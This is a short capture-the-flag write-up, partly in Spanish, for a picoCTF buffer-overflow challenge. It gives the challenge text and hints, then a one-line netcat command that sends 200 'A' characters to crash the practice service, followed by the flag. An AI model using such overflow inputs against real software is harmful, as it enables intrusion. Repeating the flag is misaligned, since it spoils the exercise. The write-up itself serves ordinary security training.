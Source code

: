 ## Objetivo
Smash the stackLet's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/172/vuln). You can view source [here](https://artifacts.picoctf.net/c/172/vuln.c). And connect with it using:`nc saturn.picoctf.net 63397`

## Hints
- How can you trigger the flag to print?
- If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.
- Run `man gets` and read the BUGS section. How many characters can the program really read?

## Solución

```
th0rtilla-picoctf@webshell:~$ nc saturn.picoctf.net 63397 <<< (python3 .c "print('A'*200)")
picoCTF{ov3rfl0ws_ar3nt_that_bad_8446a0c3}
```
## Bandera
picoCTF{ov3rfl0ws_ar3nt_that_bad_8446a0c3}